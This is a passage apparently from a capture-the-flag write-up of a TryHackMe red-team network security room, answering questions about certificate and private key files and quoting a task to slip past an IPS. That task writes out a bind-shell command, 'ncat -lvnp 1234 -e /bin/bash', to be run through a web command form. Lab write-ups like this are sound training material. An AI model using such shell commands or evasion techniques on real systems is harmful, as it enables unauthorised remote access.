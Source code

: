 Answer : -----BEGIN CERTIFICATE-----

### What is the last line in the private key file?

![certificate end file](/images/thm/redteamnetsec/redteamnetsec_5.png)
_certificate end file_

Answer : -----END PRIVATE KEY-----

### On the attached machine from the previous task, browse to http://10.10.160.99:8080, where you can write your Linux commands. Note that no output will be returned. A command like ncat -lvnp 1234 -e /bin/bash will create a bind shell that you can connect to it from the AttackBox using ncat 10.10.160.99 1234; however, some IPS is filtering out the command we are submitting on the form. Using one of the techniques mentioned in this task, try to adapt the command typed in the form to run properly. Once you connect to the bind shell using ncat 10.10.160.99 1234, find the user’s name.
